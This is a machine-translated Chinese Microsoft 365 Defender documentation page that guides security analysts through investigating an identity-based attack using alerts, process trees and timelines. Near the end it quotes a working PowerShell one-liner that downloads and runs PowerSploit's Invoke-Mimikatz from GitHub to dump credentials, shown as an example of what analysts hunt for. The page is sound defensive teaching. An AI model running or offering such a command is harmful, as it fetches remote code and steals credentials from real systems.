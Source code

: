 ```yaml
---
title: 基于身份的攻击示例
description: 逐步完成基于身份的攻击的示例分析。
keywords: 事件， 警报， 调查， 关联， 攻击， 计算机， 设备， 用户， 标识， 标识， 邮箱， 电子邮件， 365， microsoft， m365， 事件响应， 网络攻击
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 204530b8b4a87215053ddcb0434e40e45271da3d
ms.sourcegitcommit: 4fb1226d5875bf5b9b29252596855a6562cea9ae
ms.translationtype: MT
ms.contentlocale: zh-CN
ms.lasthandoff: 06/08/2021
ms.locfileid: "52841002"
---
```

# <a name="example-of-an-identity-based-attack"></a>基于身份的攻击示例

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**适用于：**
- Microsoft 365 Defender

Microsoft Defender for Identity 可以帮助检测恶意尝试来破坏你组织中的身份。 由于 Defender for Identity 与 Microsoft 365 Defender 集成，因此安全分析师可以了解来自 Defender for Identity 的威胁，例如可疑的 Netlogon 特权提升尝试。

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>分析 Microsoft Defender 中针对标识的攻击

Microsoft 365Defender 允许分析员按事件页面的"**警报**"选项卡上的检测源筛选警报。 在下面的示例中，将检测源筛选为 Defender **for Identity**。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="筛选 Defender for Identity 的检测源的示例":::

选择 **可疑的哈希攻击警报** 将转到显示Microsoft Cloud App Security详细信息的页面。 通过选择"了解有关此警报类型"以阅读攻击描述以及修正建议，你始终可以了解有关警报或[](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002)攻击的更多信息。
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="可疑的哈希攻击警报示例"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>调查 Microsoft Defender for Endpoint 中的相同攻击

或者，分析员可以使用 Defender for Endpoint 了解有关终结点上活动更多信息。 从事件队列中选择事件，然后选择" **警报"** 选项卡。在这里，他们还可以识别检测源。 标记为"终结点"的EDR表示终结点检测和响应，即 Endpoint 的 Defender。 从此处，分析员选择由用户检测到EDR。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Defender for Endpoint 中的终结点检测和响应示例"::: 

警报页面显示各种相关信息，如影响的设备名称、用户名、自动调查的状态以及警报详细信息。 警报情景描述进程树的可视化表示形式。 进程树是与警报相关的父进程和子进程的分层表示形式。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Defender for Endpoint 中的警报进程树示例"::: 

可以展开每个进程以查看其他详细信息。 分析师可以看到的详细信息是作为恶意脚本的一部分输入的实际命令、出站连接 IP 地址和其他有用信息。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Defender for Endpoint 中进程详细信息的示例":::
 
通过选择 **"在时间线中** 查看"，分析员可以进一步向下钻取以确定泄露的确切时间。 

Microsoft Defender for Endpoint 可以检测许多恶意文件和脚本。 但是，由于出站连接、PowerShell 和命令行活动的许多合法用途，某些活动在创建恶意文件或活动之前被视为恶意活动。 因此，使用时间线可帮助分析员将警报置于与周围活动的上下文中，以确定攻击的原始源或时间，否则，常见文件系统和用户活动会掩盖这些攻击。 

为完成此操作，分析员将在警报检测 (以红色) 并及时向后滚动，以确定导致恶意活动的原始活动何时实际启动。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="警报检测时开始的示例"::: 

了解并区分常见活动（如 Windows 更新连接、Windows 受信任的软件激活通信、与 Microsoft 站点的其他常见连接、第三方 Internet 活动、Microsoft Endpoint Configuration Manager 活动和其他恶意活动与可疑活动）非常重要。 实现此目的的一个方法就是使用时间线筛选器。 有许多筛选器可在筛选掉分析员不想查看的一切内容时突出显示特定活动。 

在下图中，分析员经过筛选，以便仅查看网络和处理事件。 这允许分析师查看围绕事件（记事本 IP 地址建立连接）的网络连接和进程，我们在进程树中也可以看到这一点。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="如何使用 记事本进行恶意出站连接的示例"::: 

在此特定事件记事本，该邮件用于建立恶意出站连接。 但是，攻击者通常只会iexplorer.exe来建立连接来下载恶意负载，因为通常iexplorer.exe进程被视为常规 Web 浏览器活动。

时间线中要查找的另一项是 PowerShell 用于出站连接。 分析员会通过命令（如 后跟托管恶意文件的网站的出站连接）查找成功的 PowerShell `IEX (New-Object Net.Webclient)` 连接。 

在下面的示例中，PowerShell 用于从网站下载和执行 Mimikatz：

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
分析员可以通过在搜索栏中键入关键字来快速搜索关键字，以仅显示使用 PowerShell 创建的事件。 

## <a name="next-step"></a>后续步骤

请参阅 [网络钓鱼调查](first-incident-path-phishing.md) 路径。

## <a name="see-also"></a>另请参阅

- [事件概述](incidents-overview.md)
- [管理事件](manage-incidents.md)
- [调查事件](investigate-incidents.md)
